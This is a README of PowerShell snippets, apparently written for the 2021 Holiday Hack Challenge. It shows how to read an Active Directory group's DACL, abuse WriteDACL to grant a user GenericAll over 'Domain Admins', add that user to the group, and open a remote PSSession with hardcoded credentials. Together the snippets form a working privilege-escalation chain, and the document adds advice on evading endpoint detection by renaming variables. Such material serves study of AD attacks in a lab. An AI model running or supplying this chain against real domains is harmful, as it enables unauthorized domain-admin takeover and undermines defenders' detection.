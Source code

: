 # hhc21_powershell_snippets

These snippets show you how you can read and write to Active Directory group objects DACLs. This also demonstrates using PowerShell to add an account to a AD group.

**Note:** These code snippets (or similar) are used legitimately by many powershell apps and as such will likely not trip endpoint protections. However, if for some reason they do in the future, it will likely be due to signature matching of variable names which can be overcome by changing variable names around.

### You can read the DACL of an AD group object using:

``` powershell
# Can Use Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
# Or:
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
# Or:
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access
```

### In the below example, the "GenericAll" permission for the "chrisd" user to the "Domain Admins" group if the user your running it under has the "WriteDACL" permission on the "Domain Admins" group.

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("vulns.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### After giving "GenericAll" permissions over the "Domain Admins" group, the below snippet would add the chrisjd account to the "Domain Admins" group:

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$password = "Password!@12"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("vulns.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### Added bonus, here is how you can `Enter-PSSession` into a remote computer:

``` powershell
$password = ConvertTo-SecureString "Password!@12" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList ("vulns.local\chrisd", $password)
Enter-PSSession -ComputerName WIN-4JFNT305Q5J.vulns.local -Credential $creds -Authentication Negotiate
```
